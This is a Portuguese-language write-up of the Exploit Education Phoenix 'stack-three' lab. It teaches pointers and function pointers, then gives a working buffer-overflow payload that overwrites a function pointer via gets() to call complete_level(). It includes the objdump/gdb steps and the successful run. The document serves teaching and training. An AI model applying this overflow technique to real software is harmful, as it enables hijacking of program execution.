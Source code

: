 Index
1. [🎯 Objetivo](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-objetivo)
2. [💡 Dica](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-dica)
3. [💫 Explicação](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-explicação)
4. [🔥 Solução](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-solução)


# 🎯 Objetivo
Usar um pointer para retornar para uma função pre existente

# 💡 Dica
OBS: em Ingles! -> [Wikipedia Pointer](https://en.wikipedia.org/wiki/Pointer_(computer_programming))

# 💫 Explicação
  - O que raios são pointers
  - Function pointers
  - Exploit
  
### ↗️↘️ O que raios são pointers
> Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura.
Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D

O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.

![Imagem da wikipedia mostrando um pointer](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/pointer.png)
Colunas: Nome da Variavel | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variavel "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
> "a" armazena uma referencia á "b" !

> "a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D

Normalmente, o caractere "&" indica uma referência, e o caractere "*" desreferencia aquele pointer.

> Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro!

### 🦀 Function Pointers
> Function pointers, ao envés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D

Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por varios métodos:
```
objdump -d <programa> | grep <nome_da_função>


gdb <programa>
  (gdb)> info functions
```
Os dois metodos serão demonstrados em breve! :D

### 🔥 Exploit
> Buffer overflow, alterarando o valor de um function pointer, redirecionando a execução do programa.
> 
>Em lingua não nerd, por favor? :P
> 
> Escrever fora do valor do buffer. O valor que sera corrompido indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!

#### 🛸 Analisando o programa
```
função complete_level() {   -> a função que a gente quer chamar
.......
}

função main() {
  criar buffer[64]
  criar fp -> um function pointer
  
  fp = NULL -> vai ser usado para checar se ele foi alterado,
                se continuar sendo NULL, quer dizer que esta intacto.
                
  
  gets(buffer) -> função INSEGURA para abrir um input, salva o valor no buffer
  
  if (fp) {    -> se fp foi alterado
    fp()   -> chama o endereço salvo em fp como se fosse uma função
  } else {
    print(valor nao alterado, tente novamente)
  }
  
  exit
}
```

Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.

E nós já sabemos como exploitar um gets()! Então tá na hora do trabalho!

#### 🏠 Encontrando o endereço da função
```
objdump -d    -> Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços
                  ( O -d é pra ativar a disassembly: Converter de machine code para algo legivel )!
gdb
```

objdump
```
user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
```

gdb
```
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-three                
---- Mensagens padrão foram removidas ----
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level              -> Mesmo endereço
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

> O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, 
e strings terminam com null byte!
Impedindo atacantes (nós), de definir um pointer novo. Nós precisamos usar um que já esta na memoria! (  Spoiler hehehehe :D  )

Como nesse desafio o pointer ja definido e nós só vamos dar um valor para ele, não precisamos nos preocupar com isso,
 dado que os zeros que ficam na stack quando ela esta vazia completarão o endereço pra gente!

#### 😐 Cansei de teoria eu quero exploit

Se você quer tentar por conta propria, agora é sua hora de brilhar!
```
Lembretes: Little Endian, o buffer tem 64 bytes, b"\x", o input vem pelo gets(), python > python3
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
```

b"A"*64     # encher o buffer

b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE


Espero que você tenha gostado! :D

# 🔥 Solução
```
user@phoenix-amd64:~$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
